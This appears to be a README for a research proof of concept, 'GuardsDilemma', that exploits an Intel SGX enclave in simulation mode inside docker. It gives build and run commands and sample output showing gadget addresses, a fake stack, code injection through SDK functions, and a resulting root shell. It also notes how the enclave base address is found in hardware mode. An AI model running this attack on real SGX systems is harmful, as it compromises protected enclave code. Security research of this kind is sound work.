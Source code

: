 # How to create docker container
sudo ./up.sh

# How to destroy docker container
sudo ./down.sh

# How to enter the docker container
sudo docker exec -it sgx16_test_1 /bin/bash

## Once inside docker
```
root@...:/home/linuxsgx#  source /opt/intel/sgxsdk/environment
root@...:/home/linuxsgx# cd GuardsDilemma
root@...:/home/linuxsgx/GuardsDilemma# make
root@...:/home/linuxsgx/GuardsDilemma# ./app
```

## After execution you will probably see

```
[build_secs /home/linuxsgx/linux-sgx/psw/urts/loader.cpp:385] enclave start address = 0x7f8fdbac4000, size = 800000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbe57000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbe9e000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbee5000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbf2c000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbf73000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdbfba000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc001000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc048000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc08f000
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:167] add tcs 0x7f8fdc0d6000
[set_extra_debug_info /home/linuxsgx/linux-sgx/psw/urts/enclave.cpp:269] Symbol 'g_peak_heap_used' is not found
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:194] Debug enclave. Checking if VTune is profiling
[__create_enclave /home/linuxsgx/linux-sgx/psw/urts/urts_com.h:235] VTune is not profiling. Debug OPTIN bit not set and API to do module mapping not invoked
[read_cpusvn_file ../cpusvn_util.cpp:96] Couldn't find/open the configuration file /root/.cpusvn.conf.
Checksum(0x0x7ffd125f3660, 100) = 0xfffd4143
Info: executing thread synchronization, please wait...  
Give me the base address: 
```
There is more output on top but for convinence it was cut. The first line above show enclave start address = 0x7f8fdbac4000. This is the base address of the enclave. Similar attacks like SnakeGX (which was used to actually understand how the attack is done) use /proc/(PID)/maps and search for isgx (for recent version of SGX driver the name has changed) to get the enclave start address. This is done in HW mode but in SIM mode it is give like we see here.

So we give the enclave address:
```
Give me the base address: 0x7f8fdbac4000
Received: 7f8fdbac4000
asm_oret: 7f8fdbaccc27
continue_execution: 7f8fdbacccfe
writeGadget: 7f8fdbaccce5
fakeStack: 7ffd125f37b0
ctx: 7ffd125f3ad0
mov 7ffd125f3700, $rdi
call 7f8fdbacccfe
# whoami
root
```
Now at the end we get the shell indicating we have succeeded injecting code and executing code using sgx sdk functions. 

## dont forget to close the docker container
sudo ./down.sh
